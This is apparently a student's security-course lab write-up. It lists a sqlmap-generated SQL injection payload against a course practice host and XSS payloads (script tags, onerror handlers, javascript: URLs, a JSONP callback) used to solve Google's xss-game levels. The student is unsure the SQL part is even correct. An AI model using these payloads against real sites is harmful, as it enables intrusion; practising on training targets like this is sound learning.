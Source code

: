 # Crypto II Writeup

Name: Alex Bloch
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Alex Bloch
## Assignment Writeup

### Part 1 (40 Pts)
Presumably this means 'Do an SQL injection'. Lecture notes don't seem to be helpful, so following this guide: https://security.stackexchange.com/questions/173459/sql-injection-how-to-find-urls-to-attack-to
I typed in http://1337bank.money:5000/item?id=0%20SELECT%20*%20FROM%20item%20category=1 and it said ERROR: ATTEMPTED SQL INJECTION DETECTED So I assume this is it?
I ran sqlmap, which gave me id=0' UNION ALL SELECT NULL,NULL,NULL,CONCAT(CONCAT('qjjqq','WazkonSMvyznWrcBDUfYMgEkqxceaBtJMFUyRSmX'),'qvkpq'),NULL-- SZhE . 
Putting this in the URL, I get a page with a broke image and 'None' for the name and price, so I assumed I did this right. I've spent 2 hours on this already so I hope this is right.
 This is the only homework assignment in my 8 semesters in UMD CS that doesn't have a question or give any requirements, so I'm assuming that this means I can whatever and it'll count as an answer.
### Part 2 (60 Pts)

1: doing a js script: <script>alert('yo')</script>
2: Using hints to get <img src="http://google.com" onerror="javascript:alert('yo')"/>
3: escaped the url and added an onerror="alert('yo')"
4: escaping the textbox using  ');alert('fds
5: changed the signup?next url to signup?next=javascript:alert(2)
6: Using the hints, but changing foo to alert gets me: https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert